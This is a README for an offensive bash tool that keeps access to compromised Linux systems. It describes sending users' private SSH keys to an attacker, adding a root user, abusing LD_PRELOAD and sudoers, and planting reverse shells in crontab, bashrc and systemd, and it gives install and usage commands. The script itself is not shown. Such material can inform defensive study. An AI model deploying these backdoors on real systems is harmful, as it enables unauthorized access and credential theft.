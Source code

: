 # The OWL [The One-Who-Laughs]

## Overview
The OWL is a bash script designed to help ensure continued access to a linux based target system by performing several actions that enhance access privileges and establish multiple backdoor mechanisms. This tool is intended for educational and research purposes only.

**Disclaimer:** Misuse of this script for illegal activities is prohibited. The author is not responsible for any consequences. Use at your own risk.

## Features
- **SSH Key Generation**: Generates SSH key pairs for all users and sends the private keys to a specified attack machine.
- **SSH Key Obfuscation**: Obfuscates private SSH keys to prevent others from using them.
- **User Creation**: Adds a new user with root privileges.
- **LD_PRELOAD & sudoers configuration**: setup LD_PRELOAD and configures 'find' in sudoers
- **Crontab Backdoor**: Adds crontab entries to establish reverse shells.
- **Bashrc Backdoor**: Edits bashrc files to spawn reverse shells on login.
- **History Tracking**: Keeps a history of actions performed.
- **Reversal of Changes**: Reverts all changes made by the script.


## Installion
1. Clone the repository (or use any other tool like wget):
    ```bash
    git clone https://github.com/sajitha-tj/theOWL.git
    cd theOWL
    ```
2. Make the script executable:
    ```bash
    chmod +x theOWL.sh
    ```
If your target system has no internet connection, you can download the code to your attacking system, host it using a web server (e.g., Python HTTP server), and download it to your target system from there.

## Usage
```sh
./theOWL.sh MODE LISTENING_IP LISTENING_PORT
```
theOWL requires sudo privileges to function properly. It uses userID to check if the current user is root.
You can use the '-P' flag at the end of the command to override this feature. This might be useful with a privileged user account other than root. Anyway, this is not recommended and may cause unexpected errors on the go.\

theOWL operates in two main modes: Auto-mode and Terminal-mode. See examples below for a bettter understanding.


### Terminal-mode
Terminal-mode allows you to selectively execute functions, providing more flexible persistent methods. You can set up different listening ports for different backdoors, ensuring continuous access to the system for a longer time. The following commands can be used in terminal-mode:
```
     Command       | Description
-------------------|-------------------------------------------
   ? / h /help     | display terminal-mode commands
  1 / ssh_key_gen  | generate ssh key pairs for all users
  so / ssh_obfus   | obfuscate ssh keys of all users
   2 / new_user    | add a new user as root
   3 / ld_pre      | setup LD_PRELOAD and 'find' in sudoers
   4 / crontab     | configure crontab 
   5 / bashrc      | edit bashrc files
   6 / systemd     | add a reverse shell as a systemd service
   9 / history     | display history (changes did)
   0 / reverse     | revert all changes back!
   bye / exit      | exit out of the OWL
```

### Auto-mode
Auto-mode is for quick setups. It does not allow customization of listening ports but uses the same port for every backdoor. It is useful when time is limited, ensuring multiple backdoor access methods within seconds. It goes through SSH key generation, obfuscating private SSH keys, adding a new user, setting up shells in crontab and bashrc, and adding a reverse shell as a systemd service. Note that not all functions available in terminal-mode are used here.
```sh
./theOWL.sh a 127.0.0.1 2323
```

## Examples

- Running in Terminal-mode
```sh
./theOWL.sh t 127.0.0.1 2323
```
- Running in Auto-mode
```sh
./theOWL.sh a 127.0.0.1 2323
```
- Running without privilege check
```sh
./theOWL.sh t 127.0.0.1 2323 -P
```

## Notes
- Ensure you have the necessary privileges to run the script, ideally as root.
- The script creates a temporary directory at `/tmp/.owl` for storing temporary files.
- Be cautious while using the script, especially in environments where unauthorized access could have severe consequences.
- **overide reverse function**: When using auto-mode, it will create a file .owl_hst_tmp in the current working directory to store the history. You can use this file later to revert changes made in auto-mode as follows:
```
sudo ./theOWL.sh --force-reverse .owl_hst_tmp
```

### Fun Fact
If you are ever wondering where the name comes from, "The One-Who-Laughs" is one of the many aliases used by the DC Comics villain, the [Batman Who Laughs](https://dc.fandom.com/wiki/Bruce_Wayne_(Earth_-22)). He was a dark and strategic character who always finds a way to stay one step ahead, embodying a sense of omnipresence and relentless control. Much like the Batman Who Laughs, theOWL script ensures continuous access to a target system through multiple backdoors, guaranteeing no single failure can prevent control.

## License
This project is licensed under the GPL-3.0 License - see the [LICENSE](https://github.com/sajitha-tj/theOWL/blob/main/LICENSE) file for details.

## Contributing
Feel free to fork this repository and submit pull requests for any improvements or additional features. xD

